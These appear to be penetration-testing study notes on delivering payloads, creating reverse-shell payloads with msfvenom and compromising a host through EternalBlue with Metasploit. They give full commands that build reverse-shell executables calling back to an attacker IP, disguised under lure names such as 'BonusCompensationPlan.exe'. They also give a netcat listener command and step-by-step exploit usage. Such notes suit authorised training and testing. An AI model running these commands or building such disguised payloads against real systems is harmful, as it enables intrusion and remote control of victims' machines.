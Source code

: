 ## Payload Delivery Methods

- **Social Engineering**: Email attachments, malicious download links, or USB drops.
- **Network-Based**:
    - **SMB**: Exploit domain-joined shares (e.g., ADMIN$, C$) for file transfers.
    - **Other Protocols**: FTP, TFTP, HTTP/S for payload uploads.
- **Metasploit**: Automates payload staging and execution within exploit modules.

## MSFvenom Payload Creation

- **Listing Payloads**: `msfvenom -l payloads` to view available payloads (e.g., `windows/shell_reverse_tcp`).
- **Staged vs. Stageless Payloads**:
    - **Staged**: Sent in parts (e.g., `windows/meterpreter/reverse_tcp`), requiring multiple network interactions. Suitable for stable networks but leaves more traces.
    - **Stageless**: Sent as a single unit (e.g., `windows/meterpreter_reverse_tcp`), ideal for low-bandwidth or evasion scenarios.
    - **Naming Convention**: Staged payloads have slashes separating stages (e.g., `/shell/reverse_tcp`); stageless combine functionality (e.g., `/meterpreter_reverse_tcp`).
- **Example Command (Stageless Linux Payload)**:
    
    ```bash
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf -o createbackup.elf
    
    ```
    
    - `p`: Specifies payload.
    - `LHOST/LPORT`: Attacker’s IP and port for reverse shell.
    - `f elf`: Output format (ELF for Linux).
    - `o`: Output filename.
- **Example Command (Stageless Windows Payload)**:
    
    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe -o BonusCompensationPlan.exe
    
    ```
    
    - `f exe`: Windows executable format.
- **Execution**:
    - Deliver via email, website, USB, or exploit module.
    - Set up a listener: `sudo nc -lvnp 443`.
    - Antivirus evasion requires encoding (not shown in basic examples).

## Example Compromise Walkthrough

1. **Enumerate Host**:
    - Use Nmap: `nmap -v -A <target_IP>` to identify open ports (e.g., 80, 135, 139, 445) and services (e.g., Microsoft IIS, SMB).
2. **Check for Vulnerabilities**:
    - Use Metasploit’s `auxiliary/scanner/smb/smb_ms17_010` to confirm EternalBlue (MS17-010) vulnerability.
3. **Select Exploit and Payload**:
    - Use: `exploit/windows/smb/ms17_010_psexec`.
    - Payload: `windows/meterpreter/reverse_tcp`.
    - Set options: `RHOSTS`, `LHOST`, `LPORT`.
4. **Execute Attack**:
    - Run: `exploit`.
    - Gain SYSTEM-level Meterpreter shell.
5. **Interact with Shell**:
    - Use `getuid` to confirm privileges.
    - Drop to native shell: `shell` (cmd.exe or PowerShell, identified by prompt).
